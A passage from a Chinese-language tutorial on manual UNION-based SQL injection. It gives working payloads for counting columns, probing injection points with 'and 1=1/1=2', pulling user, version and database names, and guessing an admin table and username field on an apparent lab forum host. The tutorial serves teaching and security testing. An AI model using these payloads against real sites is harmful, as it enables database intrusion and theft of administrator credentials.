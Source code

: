 上面通过报错信息我们分析过，原本查询的 SQL 语句，只有一个字段，所以后面也跟了一个字段。那么如果我们不知道前表查询的字段个数时，我们可以手工猜解
```
union select 1
union select 1,2
union select 1,2,3
....
以此类推，不断的带入尝试猜解
直到页面返回的数据正常，说明前后表联合查询列数一致
我们也可以使用空字符 null 进行填充
union select null
union select null,null
Oracle 数据库需要注意的一点，联合查询后表一定要跟 Oracle的默认空表 dual，
也就是这样：union select null from dual
```


我们来归纳一个使用联合查询获取数据要注意的点：
1. 前后表的列数要相同
2. 我们也可以判断字段的数据类型，前后表对应的字段数据类型要一致或兼容
3. 如果前表出错，将返回后表的结果
##### 手工注入步骤
一、判断注入点
```
http://192.168.140.140/dvbbsnews/boardrule.php?groupboardid=1
在出入点后面通过加逻辑表达式影响返回页面差异判断是否影响了查询逻辑
and 1=1 正常
and 1=2 错误
如果是这样，说明这个逻辑影响了最终的数据库查询，说明注入的内容带入了
数据库查询，这样就形成了 SQL 注入
```
![在这里插入图片描述](https://images.gitbook.cn/a7cb3b10-c653-11e9-9e70-c92e65b27251)
![在这里插入图片描述](https://images.gitbook.cn/b70bf470-c653-11e9-b4a2-dd4e61833115)
二、判断用户名
```
id=-1 union select user()
```
![在这里插入图片描述](https://images.gitbook.cn/d0c753a0-c653-11e9-9e70-c92e65b27251)
三、判断版本号
```
id=-1 union select version()
```
![在这里插入图片描述](https://images.gitbook.cn/e359f720-c653-11e9-b4a2-dd4e61833115)
四、判断当前连接数据库
```
id=-1 union select database()
```
![在这里插入图片描述](https://images.gitbook.cn/f433c710-c653-11e9-b1d0-e193f39e1860)
五、判断表名
```
id=-1 union select 1 from dv_admin
若存在 dv_admin 表，则显示正常
否则显示错误
```
![在这里插入图片描述](https://images.gitbook.cn/0f5d0e20-c654-11e9-9e70-c92e65b27251)
![在这里插入图片描述](https://images.gitbook.cn/1a85a730-c654-11e9-b1d0-e193f39e1860)
六、判断字段
```
在成功猜解表名的情况下猜解判断字段名
id=-a union select username from dv_admin
若存在 username 字段，则显示正常
否则显示错误
```